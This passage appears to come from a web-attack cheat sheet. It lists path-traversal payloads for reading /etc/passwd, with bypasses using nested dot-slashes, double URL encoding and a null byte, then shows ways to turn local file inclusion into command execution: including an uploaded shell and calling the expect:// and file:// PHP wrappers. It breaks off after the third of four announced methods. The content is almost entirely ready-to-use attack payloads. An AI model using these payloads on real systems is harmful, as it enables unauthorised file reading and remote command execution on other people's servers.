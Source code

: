 - stripped non recursive
    
    ```
    filename=....//....//....//etc/passwd
    ```
    
- encoding
    
    ```
     filename=..%252f..%252f..%252fetc/passwd
    ```
    
- validation of start path
    
    ```
     filename=/var/www/images/../../../etc/passwd
    ```
    
- add nullbyte
    
    ```
     filename=..%252f..%252f..%252fetc/passwd%00
    ```
    

# 4 common LFI to RCE

---

## 1. Using file upload forms/functions

upload a shell, then

```
http://example.com/index.php?page=path/to/uploaded/file.php
```

## 2. Using the PHP wrapper expect://command

if the app use an include:

```
<?php  
include $_GET['page'];  
?>  
```

```
http://target.com/index.php?page=expect://whoami  
```

## 3. Using php wrapper file://

```
http://localhost/include.php?page=file:///path/to/file.ext
```
